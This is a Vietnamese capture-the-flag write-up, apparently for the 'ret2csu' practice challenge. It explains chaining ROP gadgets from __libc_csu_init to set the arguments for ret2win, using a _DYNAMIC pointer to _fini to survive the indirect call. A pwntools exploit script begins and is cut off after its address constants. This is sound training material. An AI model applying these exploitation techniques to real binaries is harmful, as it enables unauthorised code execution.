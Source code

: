 - Ta thấy có 2 gadget để set tham số cho hàm `ret2win()`
```
0x00000000004006a3: pop rdi; ret;
0x00000000004006a1: pop rsi; pop r15; ret;
```
- Không tìm thấy gadget nào hữu ích để set tham số còn lại `rdx`
- Hãy xem hàm ` __libc_csu_init()` theo gợi ý của bài\
![image](https://hackmd.io/_uploads/ByuIYIs4C.png)
- Ta thấy có gadget dùng để set tham số cho `rdx` và cả `rsi`
```
0x0000000000400680 <+64>:    mov    rdx,r15
0x0000000000400683 <+67>:    mov    rsi,r14
```
- Để set cho thanh ghi `rdx`, `rsi` từ `r15`, `r14` thì có các gadget 
```
0x000000000040069a <+90>:    pop    rbx
0x000000000040069b <+91>:    pop    rbp
0x000000000040069c <+92>:    pop    r12
0x000000000040069e <+94>:    pop    r13
0x00000000004006a0 <+96>:    pop    r14
0x00000000004006a2 <+98>:    pop    r15
0x00000000004006a4 <+100>:   ret
```
- Ta dùng các gadget trên để đặt các giá trị vào các thanh ghi trước khi set các thanh ghi `rdx`, `rsi`
- Nhưng sau khi set giá trị cho `rdx`, `rsi` thì có lệnh 
`0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]`
- Lệnh này gọi con trỏ lệnh đang trỏ của địa chỉ `[r12 + rbx*8]` 
- Sau lệnh này còn lệnh 
```
0x000000000040068d <+77>:    add    rbx,0x1
0x0000000000400691 <+81>:    cmp    rbp,rbx
0x0000000000400694 <+84>:    jne    0x400680 <__libc_csu_init+64>
```
- Để luồng thực thi chương trình không bị chuyển sang hàm khác thì ta set `rbx` là `0` còn `rbp` là `0x1`
- Vậy lệnh `call   QWORD PTR [r12+rbx*8]` chỉ phụ thuộc vào thanh ghi `r12`
- Ý tưởng ban đầu là set `r12` là địa chỉ `got` của `ret2win` để có thể nhảy đến và in được cờ
- Nhưng không dễ dàng thế vì trước lệnh `call` thì có lệnh ` mov    edi,r13d` đã làm thay đổi tham số trước khi gọi hàm nên không thể in flag............(!_!)
- Sau khi đọc tài liệu của challenge đã đưa thì nhiệm vụ của ta bây giờ là sẽ `call` vào các lệnh mà khi trả về hàm hiện tại thì sẽ không làm thay đổi các thanh ghi tham số của `ret2win()` 
- Ta xem hàm `_fini` một hàm trong ELF nằm ở phần `&_DYNAMIC`
![image](https://hackmd.io/_uploads/Hknhlwo4R.png)
- Ta thấy hàm này sẽ không làm thay đổi luồng thực thi của ta 
- Tìm địa chỉ này trong `&_DYNAMIC`
![image](https://hackmd.io/_uploads/BklVbPi4C.png)
- Thấy địa chỉ `0x600e48` đang trỏ đến hàm `_fini`. Đây là điều ta cần 
- Đã có đầy đủ thông tin, bắt đầu viết script
### Script
```python=
#!/usr/bin/python3

from pwn import *

exe = ELF('./ret2csu', checksec = False)

p = process(exe.path)

mov_rdx = 0x0000000000400680
pop_rdi = 0x00000000004006a3
pop_rbx_rbp_r12 = 0x000000000040069a
ret2win_plt = 0x400510
```